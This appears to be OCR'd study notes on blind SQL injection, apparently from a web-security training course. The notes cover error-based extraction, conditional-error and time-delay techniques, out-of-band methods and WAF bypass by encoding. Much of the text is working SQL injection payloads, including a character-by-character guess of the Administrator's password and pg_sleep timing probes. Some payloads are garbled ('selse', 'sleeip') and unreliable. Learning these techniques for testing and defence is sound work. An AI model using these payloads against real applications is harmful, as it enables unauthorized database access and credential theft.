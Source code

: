     - The database error outputs the data returned from the query. Use the verbose error to extract the data:
- Test with valid SQL queries, then see how to trigger an error. See if the error exposes data that might be interesting
- Use the CAST method described in the modules (Use cheatsheet for other types of SQL databases)
```sql
' AND 1=CAST((SELECT somethin FROM table LIMIT 1) AS int)--
```
- The database could return a generic error, in that case we can use the conditional response technique to cause an error if the query equals TRUE
```sql
Generic
xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a'--
xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a'--
Guess password
xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) = 'm') THEN 1/0 ELSE 'a' END FROM Users)='a'--
xyz' || (SELECT CASE WHEN rest-of-query...
```
## Blind SQLi - Time delays
- If the application catches database errors and handles them appropriately then the previous technique won't be successful
- Time delays based on true or false condition could be used extract data
```sql
'||pg_sleep(10)--
'||(select case when (query/condition) then pg_sleep(10) selse pg_sleeip(-1) end)--
```
## Blind SQLi - Out-of-band (OAST) techniques
- Useful for asynchronous sql queries
- Trigger out-of-band network interactions. DNS queries are good for this
- See the cheatsheet for database specific payloads
```sql
' UNION payload--
' || (payload)--
```
# SQL in different context
- To bypass WAF encoding might be needed. This can be done manually or with a Burp Suite Extension (Hackvertor)
```sql
&#x53;ELECT * FROM information_schema.tables
```
